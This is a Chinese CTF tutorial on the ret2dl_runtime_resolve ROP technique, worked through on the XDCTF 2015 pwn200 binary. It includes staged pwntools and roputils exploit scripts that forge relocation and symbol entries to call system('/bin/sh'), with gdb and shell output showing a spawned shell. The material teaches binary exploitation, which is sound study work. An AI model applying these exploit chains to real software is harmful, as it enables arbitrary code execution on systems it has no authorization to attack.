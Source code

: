 高级ROP
=======

高级ROP其实和一般的ROP基本一样，其主要的区别在于它利用了一些更加底层的原理。

ret2\_dl\_runtime\_resolve
==========================

原理
----

要想弄懂这个ROP利用技巧，需要首先理解ELF文件的基本结构，以及动态链接的基本过程，请参考executable中elf对应的介绍。这里我只给出相应的利用方式。

我们知道在linux中是利用\_dl\_runtime\_resolve(link\_map\_obj,
reloc\_index)来对动态链接的函数进行重定位的。那么如果我们可以控制相应的参数以及其对应地址的内容是不是就可以控制解析的函数了呢？答案还肯定的。具体利用方式如下

1. 控制程序执行dl\_resolve函数

-  给定Link\_map以及index两个参数。
-  当然我们可以直接给定
   plt0对应的汇编代码，这时，我们就只需要一个index就足够了。

2. 控制index的大小，以便于指向自己所控制的区域，从而伪造一个指定的重定位表项。
3. 伪造重定位表项，使得重定位表项所指的符号也在自己可以控制的范围内。
4. 伪造符号内容，使得符号对应的名称也在自己可以控制的范围内。

**此外，这个攻击成功的很必要的条件**

-  **dl\_resolve函数不会检查对应的符号是否越界，它只会根据我们所给定的数据来执行。**
-  **dl\_resolve函数最后的解析根本上依赖于所给定的字符串。**

注意：

-  符号版本信息
-  最好使得ndx = VERSYM[ (reloc->r\_info) >> 8]
   的值为0，以便于防止找不到的情况。
-  重定位表项
-  r\_offset必须是可写的，因为当解析完函数后，必须把相应函数的地址填入到对应的地址。

攻击条件
--------

说了这么多，这个利用技巧其实还是ROP，同样可以绕过NX和ASLR保护。但是，这个攻击更适于一些比较简单的栈溢出的情况，但同时又难以泄露获取更多信息的情况下。

示例
----

这里以XDCTF 2015的pwn200为例。主要参考

1. http://pwn4.fun/2016/11/09/Return-to-dl-resolve/ ，深入浅出。
2. https://www.math1as.com/index.php/archives/341/

首先我们可以编译下ret2dlresolve文件夹下的源文件main.c文件得到二进制文件，这里取消了Canary保护。

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ gcc main.c -m32 -fno-stack-protector -o main

在下面的讲解过程中，我会按照以两种不同的方法来进行讲解。其中第一种方法比较麻烦，但是可以仔细理解ret2dlresolve的原理，第二种方法则是直接使用已有的工具，相对容易一点。

1. 利用正常的代码来使用该技巧从而获取shell。

stage 1 测试控制程序执行write函数的效果。

stage 2
测试控制程序执行dl\_resolve函数，并且相应参数指向正常write函数的plt时的执行效果。

stage 3
测试控制程序执行dl\_resolve函数，并且相应参数指向伪造的write函数的plt时的执行效果。

2. 利用roputils中已经集成好的工具来实现攻击，从而获取shell。

正常攻击
~~~~~~~~

显然我们程序有一个很明显的栈溢出漏洞的。这题我们不考虑我们有libc的情况。我们可以很容易的分析出偏移为112。

.. code:: shell

    gef➤  pattern create 200
    [+] Generating a pattern of 200 bytes
    aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
    [+] Saved as '$_gef0'
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main 
    Welcome to XDCTF2015~!
    aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

    Program received signal SIGSEGV, Segmentation fault.
    0x62616164 in ?? ()
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
    $eax   : 0x000000c9
    $ebx   : 0x00000000
    $ecx   : 0xffffcc6c  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
    $edx   : 0x00000100
    $esp   : 0xffffcce0  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
    $ebp   : 0x62616163 ("caab"?)
    $esi   : 0xf7fac000  →  0x001b1db0
    $edi   : 0xffffcd50  →  0xffffcd70  →  0x00000001
    $eip   : 0x62616164 ("daab"?)
    $cs    : 0x00000023
    $ss    : 0x0000002b
    $ds    : 0x0000002b
    $es    : 0x0000002b
    $fs    : 0x00000000
    $gs    : 0x00000063
    $eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
    [!] Cannot disassemble from $PC
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffcce0', 'l8']
    8
    0xffffcce0│+0x00: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"  ← $esp
    0xffffcce4│+0x04: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
    0xffffcce8│+0x08: "gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa[...]"
    0xffffccec│+0x0c: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
    0xffffccf0│+0x10: "iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabua[...]"
    0xffffccf4│+0x14: "jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva[...]"
    0xffffccf8│+0x18: "kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa[...]"
    0xffffccfc│+0x1c: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  pattern search 
    [!] Syntax
    pattern search PATTERN [SIZE]
    gef➤  pattern search 0x62616164
    [+] Searching '0x62616164'
    [+] Found at offset 112 (little-endian search) likely

stage 1
^^^^^^^

这里我们的主要目的是控制程序执行write函数，虽然我们可以控制程序直接执行write函数。但是这里我们采用一个更加复杂的办法，即使用栈迁移的技巧，将栈迁移到bss段来控制write函数。即主要分为两步

1. 将栈迁移到bss段。
2. 控制write函数输出相应字符串。

这里主要使用了pwntools中的ROP模块。具体代码如下

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    # stack privot to bss segment
    # new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ## padding
    rop.raw('a' * offset)
    ## read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ## stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    # write cmd="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"
    rop.write(1, base_stage + 80, len(sh))
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

结果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage1.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 120912
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 2
^^^^^^^

在这一阶段，我们将会利用dlresolve相关的知识来控制程序执行write函数。这里我们主要是利用plt[0]中的相关指令，即push
linkmap以及跳转到dl\_resolve函数中解析的指令。此外，我们还得单独提供一个write重定位项在plt表中的偏移。

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    # stack privot to bss segment
    # new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ## padding
    rop.raw('a' * offset)
    ## read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ## stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    # write cmd="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    write_index = (elf.plt['write'] - plt0) / 16 - 1
    write_index *= 8
    rop.raw(plt0)
    rop.raw(write_index)
    # fake ret addr of write
    rop.raw('bbbb')
    rop.raw(1)
    rop.raw(base_stage + 80)
    rop.raw(len(sh))
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

效果如下，仍然输出了cmd对应的字符串。

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage2.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 123406
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 3
^^^^^^^

这一次，我们同样控制dl\_resolve函数中的index\_offset参数，不过这次控制其指向我们伪造的write重定位项。

鉴于pwntools本身并不支持对重定位表项的信息的获取。这里我们手动看一下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ readelf -r main  

    重定位节 '.rel.dyn' 位于偏移量 0x318 含有 3 个条目：
     偏移量     信息    类型              符号值      符号名称
    08049ffc  00000306 R_386_GLOB_DAT    00000000   __gmon_start__
    0804a040  00000905 R_386_COPY        0804a040   stdin@GLIBC_2.0
    0804a044  00000705 R_386_COPY        0804a044   stdout@GLIBC_2.0

    重定位节 '.rel.plt' 位于偏移量 0x330 含有 5 个条目：
     偏移量     信息    类型              符号值      符号名称
    0804a00c  00000107 R_386_JUMP_SLOT   00000000   setbuf@GLIBC_2.0
    0804a010  00000207 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
    0804a014  00000407 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
    0804a018  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
    0804a01c  00000607 R_386_JUMP_SLOT   00000000   write@GLIBC_2.0

可以看出write的重定表项的r\_offset=0x0804a01c，r\_info=0x00000607。具体代码如下

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    # stack privot to bss segment
    # new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ## padding
    rop.raw('a' * offset)
    ## read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ## stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    # write sh="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    # making base_stage+24 ---> fake reloc
    index_offset = base_stage + 24 - rel_plt
    write_got = elf.got['write']
    r_info = 0x607

    rop.raw(plt0)
    rop.raw(index_offset)
    # fake ret addr of write
    rop.raw('bbbb')
    rop.raw(1)
    rop.raw(base_stage + 80)
    rop.raw(len(sh))
    rop.raw(write_got)  # fake reloc
    rop.raw(r_info)
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

最后结果如下，这次我们在bss段伪造了一个假的write的重定位项，仍然输出了对应的字符串。

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage3.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 126063
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 4
^^^^^^^

stage3中，我们控制了重定位表项，但是重定位表项的内容与write原来的重定位表项一致，这次，我们将构造属于我们自己的重定位表项，并且伪造该表项对应的符号。首先，我们根据write的重定位表项的r\_info=0x607可以知道，write对应的符号在符号表的下标为0x607>>8=0x6。因此，我们知道write对应的符号地址为0x8048238。

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ objdump -s -EL -j  .dynsym main

    main：     文件格式 elf32-i386

    Contents of section .dynsym:
     80481d8 00000000 00000000 00000000 00000000  ................
     80481e8 33000000 00000000 00000000 12000000  3...............
     80481f8 27000000 00000000 00000000 12000000  '...............
     8048208 52000000 00000000 00000000 20000000  R........... ...
     8048218 20000000 00000000 00000000 12000000   ...............
     8048228 3a000000 00000000 00000000 12000000  :...............
     8048238 4c000000 00000000 00000000 12000000  L...............
     8048248 2c000000 44a00408 04000000 11001a00  ,...D...........
     8048258 0b000000 3c860408 04000000 11001000  ....<...........
     8048268 1a000000 40a00408 04000000 11001a00  ....@...........

这里给出的其实是小端模式，因此我们需要手工转换。此外，每个符号占用的大小为16个字节。

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    # stack privot to bss segment
    # new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ## padding
    rop.raw('a' * offset)
    ## read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ## stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    # write sh="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
    dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

    ## making fake write symbol
    fake_sym_addr = base_stage + 32
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                    )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (
        fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
    fake_write_sym = flat([0x4c, 0, 0, 0x12])

    ## making fake write relocation

    # making base_stage+24 ---> fake reloc
    index_offset = base_stage + 24 - rel_plt
    write_got = elf.got['write']
    r_info = (index_dynsym << 8) | 0x7
    fake_write_reloc = flat([write_got, r_info])

    rop.raw(plt0)
    rop.raw(index_offset)
    # fake ret addr of write
    rop.raw('bbbb')
    rop.raw(1)
    rop.raw(base_stage + 80)
    rop.raw(len(sh))
    rop.raw(fake_write_reloc)  # fake write reloc
    rop.raw('a' * align)  # padding
    rop.raw(fake_write_sym)  # fake write symbol
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

具体效果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage4.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 128795
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 5
^^^^^^^

这一阶段，我们将在阶段4的基础上，我们进一步使得write符号的st\_name指向我们自己构造的字符串。

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    # stack privot to bss segment
    # new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ## padding
    rop.raw('a' * offset)
    ## read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ## stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    # write sh="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
    dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

    ## making fake write symbol
    fake_sym_addr = base_stage + 32
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                    )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (
        fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
    # plus 10 since the size of Elf32_Sym is 16.
    st_name = fake_sym_addr + 0x10 - dynstr
    fake_write_sym = flat([st_name, 0, 0, 0x12])

    ## making fake write relocation

    # making base_stage+24 ---> fake reloc
    index_offset = base_stage + 24 - rel_plt
    write_got = elf.got['write']
    r_info = (index_dynsym << 8) | 0x7
    fake_write_reloc = flat([write_got, r_info])

    rop.raw(plt0)
    rop.raw(index_offset)
    # fake ret addr of write
    rop.raw('bbbb')
    rop.raw(1)
    rop.raw(base_stage + 80)
    rop.raw(len(sh))
    rop.raw(fake_write_reloc)  # fake write reloc
    rop.raw('a' * align)  # padding
    rop.raw(fake_write_sym)  # fake write symbol
    rop.raw('write\x00')  # there must be a \x00 to mark the end of string
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

效果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage5.py      
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 129249
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 6
^^^^^^^

这一阶段，我们只需要将原先的write字符串修改为system字符串，同时修改write的参数为system的参数即可获取shell。这是因为，dl\_resolve最终依赖的是我们所给定的字符串，即使我们给了一个假的字符串它仍然会去解析并执行。具体代码如下

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    # stack privot to bss segment
    # new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ## padding
    rop.raw('a' * offset)
    ## read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ## stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    # write sh="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
    dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

    ## making fake write symbol
    fake_sym_addr = base_stage + 32
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                    )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (
        fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
    # plus 10 since the size of Elf32_Sym is 16.
    st_name = fake_sym_addr + 0x10 - dynstr
    fake_write_sym = flat([st_name, 0, 0, 0x12])

    ## making fake write relocation

    # making base_stage+24 ---> fake reloc
    index_offset = base_stage + 24 - rel_plt
    write_got = elf.got['write']
    r_info = (index_dynsym << 8) | 0x7
    fake_write_reloc = flat([write_got, r_info])

    rop.raw(plt0)
    rop.raw(index_offset)
    # fake ret addr of write
    rop.raw('bbbb')
    rop.raw(base_stage + 82)
    rop.raw('bbbb')
    rop.raw('bbbb')
    rop.raw(fake_write_reloc)  # fake write reloc
    rop.raw('a' * align)  # padding
    rop.raw(fake_write_sym)  # fake write symbol
    rop.raw('system\x00')  # there must be a \x00 to mark the end of string
    rop.raw('a' * (80 - len(rop.chain())))
    print rop.dump()
    print len(rop.chain())
    rop.raw(sh + '\x00')
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

需要注意的是，这里我'/bin/sh'的偏移我修改为了82，这是因为pwntools中它会自动帮你对齐字符串。。。下面这一行说明了问题。

::

    0x0050:           'aara'

效果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage6.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 130415
    [*] Loaded cached gadgets for './main'
    0x0000:        0x8048380
    0x0004:           0x2528
    0x0008:           'bbbb' 'bbbb'
    0x000c:        0x804a892
    0x0010:           'bbbb' 'bbbb'
    0x0014:           'bbbb' 'bbbb'
    0x0018: '\x1c\xa0\x04\x08' '\x1c\xa0\x04\x08\x07i\x02\x00'
    0x001c:  '\x07i\x02\x00'
    0x0020:           'aaaa' 'aaaaaaaa'
    0x0024:           'aaaa'
    0x0028:  '\x00&\x00\x00' '\x00&\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00'
    0x002c: '\x00\x00\x00\x00'
    0x0030: '\x00\x00\x00\x00'
    0x0034: '\x12\x00\x00\x00'
    0x0038:           'syst' 'system\x00'
    0x003c:        'em\x00o'
    0x0040:             'aa'
    0x0044:           'aaaa' 'aaaaaaaaaaaaaa'
    0x0048:           'aaaa'
    0x004c:           'aaaa'
    0x0050:           'aara'
    82
    [*] Switching to interactive mode
    /bin/sh: 1: xa: not found
    $ ls
    core  main.c     stage2.py  stage4.py  stage6.py
    main  stage1.py  stage3.py  stage5.py

工具攻击
~~~~~~~~

根据上面的介绍，我们应该很容易可以理解这个攻击了。下面我们直接使用roputil来进行攻击。代码如下

.. code:: python

    from roputils import *
    from pwn import process
    from pwn import gdb
    from pwn import context
    r = process('./main')
    context.log_level = 'debug'
    r.recv()

    rop = ROP('./main')
    offset = 112
    bss_base = rop.section('.bss')
    buf = rop.fill(offset)

    buf += rop.call('read', 0, bss_base, 100)
    # used to call dl_Resolve()
    buf += rop.dl_resolve_call(bss_base + 20, bss_base)
    r.send(buf)

    buf = rop.string('/bin/sh')
    buf += rop.fill(20, buf)
    # used to make faking data, such relocation, Symbol, Str
    buf += rop.dl_resolve_data(bss_base + 20, 'system')
    buf += rop.fill(100, buf)
    r.send(buf)
    r.interactive()

关于dl\_resolve\_call与dl\_resolve\_data的具体细节请参考roputils.py的源码，比较容易理解，需要注意的是，dl\_resolve执行完之后也是需要有对应的返回地址的。

效果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python roptool.py                       
    [+] Starting local process './main': pid 6114
    [DEBUG] Received 0x17 bytes:
        'Welcome to XDCTF2015~!\n'
    [DEBUG] Sent 0x94 bytes:
        00000000  46 4c 68 78  52 36 67 6e  65 47 53 58  71 77 51 49  │FLhx│R6gn│eGSX│qwQI│
        00000010  32 43 6c 49  77 76 51 33  47 49 4a 59  50 74 6c 38  │2ClI│wvQ3│GIJY│Ptl8│
        00000020  57 54 68 4a  63 48 39 62  46 55 52 58  50 73 38 64  │WThJ│cH9b│FURX│Ps8d│
        00000030  72 4c 38 63  50 79 37 73  55 45 7a 32  6f 59 5a 42  │rL8c│Py7s│UEz2│oYZB│
        00000040  76 59 32 43  74 75 77 6f  70 56 61 44  6a 73 35 6b  │vY2C│tuwo│pVaD│js5k│
        00000050  41 77 78 77  49 72 7a 49  70 4d 31 67  52 6f 44 6f  │Awxw│IrzI│pM1g│RoDo│
        00000060  43 44 43 6e  45 31 50 48  53 73 64 30  6d 54 7a 5a  │CDCn│E1PH│Ssd0│mTzZ│
        00000070  a0 83 04 08  19 86 04 08  00 00 00 00  40 a0 04 08  │····│····│····│@···│
        00000080  64 00 00 00  80 83 04 08  28 1d 00 00  79 83 04 08  │d···│····│(···│y···│
        00000090  40 a0 04 08                                         │@···││
        00000094
    [DEBUG] Sent 0x64 bytes:
        00000000  2f 62 69 6e  2f 73 68 00  73 52 46 66  57 43 59 52  │/bin│/sh·│sRFf│WCYR│
        00000010  66 4c 35 52  78 49 4c 53  54 a0 04 08  07 e9 01 00  │fL5R│xILS│T···│····│
        00000020  6e 6b 45 32  52 76 73 6c  00 1e 00 00  00 00 00 00  │nkE2│Rvsl│····│····│
        00000030  00 00 00 00  12 00 00 00  73 79 73 74  65 6d 00 74  │····│····│syst│em·t│
        00000040  5a 4f 4e 6c  6c 73 4b 5a  76 53 48 6e  38 37 49 47  │ZONl│lsKZ│vSHn│87IG│
        00000050  69 49 52 6c  50 44 38 67  45 77 75 6c  72 47 6f 67  │iIRl│PD8g│Ewul│rGog│
        00000060  55 41 52 4f                                         │UARO││
        00000064
    [*] Switching to interactive mode
    $ ls
    [DEBUG] Sent 0x3 bytes:
        'ls\n'
    [DEBUG] Received 0x8d bytes:
        'core\t     main    roptool.py   roputils.pyc\tstage2.py  stage4.py  stage6.py\n'
        '__init__.py  main.c  roputils.py  stage1.py\tstage3.py  stage5.py\n'
